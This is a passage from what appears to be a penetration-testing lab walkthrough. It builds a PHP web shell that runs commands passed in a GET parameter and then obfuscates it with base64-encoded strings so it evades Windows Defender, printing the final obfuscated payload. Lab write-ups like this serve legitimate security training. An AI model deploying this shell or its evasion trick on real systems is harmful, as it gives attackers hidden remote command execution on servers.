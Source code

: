 Now that we've covered the basic terminology, let's get back to hacking this PC!

We have an upload point which we can use to upload PHP scripts. We now need to figure out how to make a PHP script that will bypass the antivirus software. Windows Defender is free and comes pre-installed with Windows Server, so let's assume that this is what is in use for the time being.  

The solution is this:  
We build a payload that does what we need it to do (preferably in a slightly less than common way), then we obfuscate it either manually or by using one of the many tools available online.

First up, let's build that payload:  

```
<?php       
$cmd = $_GET["wreath"];       
if(isset($cmd)){           
	echo "<pre>" . shell_exec($cmd) . "</pre>";
}
die();
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.  

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1. If we're obfuscating it then it will become a one-liner anyway
2. Anything _different_ is good when it comes to AV evasion

We now need to obfuscate this payload.

There are a variety of measures we could take here, including but not limited to:

- Switching parts of the exploit around so that they're in an unusual order
- Encoding all of the strings so that they're not recognisable
- Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)


---

Manual obfuscation is very much a thing, but for the sake of simplicity, let's just use one of the available online tools. The tool linked [here](https://www.gaijin.at/en/tools/php-obfuscator) is recommended. When it comes to web obfuscation, these tools are generally used to make the code difficult for humans to read; however, by doing things like obfuscating variable/function names and encoding strings, they also prove effective against antivirus software.  

Stick the payload into the tool, then activate all the obfuscation options:![[bb2ef4375625.webp]]

Click the "Obfuscate Source Code" button, and we're left with this mess of PHP:  
`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`  

If you look closely you'll see that this is still very much the same payload as before; however, enough has changed that it _should_ fool Defender.

As this is getting passed into a bash command, we will need to escape the dollar signs to prevent them from being interpreted as bash variables. This means our final payload is as follows:  
`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

